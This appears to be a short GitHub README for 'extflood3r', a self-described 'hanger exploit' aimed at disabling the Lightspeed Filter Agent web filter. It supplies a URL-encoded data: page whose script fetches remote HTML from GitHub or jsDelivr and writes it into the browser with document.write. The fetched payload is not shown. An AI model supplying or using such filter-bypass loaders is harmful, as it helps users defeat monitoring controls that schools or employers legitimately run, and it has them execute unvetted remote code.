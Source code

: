 # Currently this only works for lightspeed filter agent until I find out a way to fix
extflood3r 
another hanger exploit (bro its been only like a month since extprint3r 😭)

use dis url below:
```
data:text/html;charset=utf-8,<!DOCTYPE html>%0A<html lang%3D"en">%0A<head>%0A <meta charset%3D"UTF-8">%0A <meta name%3D"viewport" content%3D"width%3Ddevice-width%2C initial-scale%3D1.0">%0A <title>ExtFlood3r<%2Ftitle>%0A <link rel%3D"shortcut icon" type%3D"image%2Fpng" href%3D"TODO">%0A <script>%0A document.addEventListener("DOMContentLoaded"%2C () %3D> %7B%0A const main %3D "https%3A%2F%2Fraw.githubusercontent.com%2FBlobby-Boi%2FExtFlood3r%2Frefs%2Fheads%2Fmain%2Findex.html"%3B%0A const fallback %3D "https%3A%2F%2Fcdn.jsdelivr.net%2Fgh%2FBlobby-Boi%2FExtFlood3r%2Findex.html"%3B%0A%0A fetch(main)%0A .then(response %3D> %7B%0A if (!response.ok) throw new Error("Primary URL failed")%3B%0A return response.text()%3B%0A %7D)%0A .catch(() %3D> %7B%0A return fetch(fallback).then(response %3D> %7B%0A if (!response.ok) throw new Error("Fallback URL failed")%3B%0A return response.text()%3B%0A %7D)%3B%0A %7D)%0A .then(html %3D> %7B%0A document.open()%3B%0A document.write(html)%3B%0A document.close()%3B%0A %7D)%0A %7D)%3B%0A <%2Fscript>%0A<%2Fhead>%0A<%2Fhtml>
```
